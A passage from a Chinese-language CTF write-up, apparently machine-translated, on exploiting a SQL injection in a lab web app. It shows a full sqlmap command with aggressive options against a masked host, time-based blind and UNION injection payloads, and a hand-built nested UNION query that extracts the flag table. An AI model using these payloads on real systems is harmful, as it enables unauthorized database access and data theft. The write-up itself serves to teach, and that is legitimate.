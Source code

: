 如果我们测试 admin:password 来使用这个用户密码登录 mysql 怎么样？

没有。失败~~

宋承宪怎么样？？

```
ssh admin@10.10.X.X
....
Permission denied (publickey).
....
```

呃！！..哈哈的笑..这个 CTF 只是关注 SQL 注入。可能是另一种方式

如果谷歌搜索提示，它指的是盗梦空间电影。

![](img/a2a2619b591af1b78305300acbe268a8.png)

这可能是个暗示。这里发生了一些奇怪的事情。关于不和谐的讨论，需要手动查找。因此..，让我们用更详细的级别再次查找注入类型

```
# sqlmap -u "http://10.10.X.X/user?id=5000" --risk=3 --level=5 --dbms=mysql --threads=10 --random-agent --dbs -v 3....
....
---
Parameter: id (GET)
**Type: time-based blind** Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: id=5000 AND (SELECT 3646 FROM (SELECT(SLEEP(5)))FYCC)
**Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])****Type: UNION query**
Title: Generic UNION query (NULL) - 3 columns
Payload: id=5000 UNION ALL SELECT NULL,CONCAT(0x716b6a7171,0x4872555953536f506570474e616b55584968664f71507872784d756a5a6e487a4646565555654845,0x7178787071),NULL-- -**Vector: UNION ALL SELECT NULL,[QUERY],NULL-- -**
---
....
....
```

使用上面的联合向量示例，在几个小时的尝试和错误之后，填充查询以访问从`**sqlmap**`无法访问的`**flag**`表

烹饪查询后的最终结果:

```
5000 UNION ALL SELECT "5000 UNION SELECT flag,flag,flag,flag from flag-- -",5000,5000 from users-- -
```
